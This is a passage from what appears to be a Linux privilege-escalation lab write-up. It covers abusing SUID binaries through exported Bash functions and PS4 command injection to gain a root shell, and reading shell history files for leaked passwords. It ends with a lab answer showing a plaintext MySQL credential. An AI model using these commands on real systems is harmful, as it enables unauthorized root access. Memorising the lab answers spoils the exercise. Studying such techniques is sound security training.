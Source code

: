  > The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

> verify with strings 
```
strings /usr/local/bin/suid-env2
```

> In Bash version <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

> verify the version of Bash installed on the Debian VM is less than 4.2-048:
```
/bin/bash --version
```

> Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
> now run the `/usr/local/bin/suid-env2` to gain a root shell

## SUID / SGID Executables - Abusing Shell Features (#2)

> When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements

> Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

> now just run the `/tmp/rootbash` with a `-p` flag to gain a root shell



## Passwords & keys - History Files

> If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

> View the contents of all the hidden history files in the user's home directory:
```
cat ~/.*history | less
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the full mysql command the user executed ? | mysql -h somehost.local -uroot -ppassword123 |


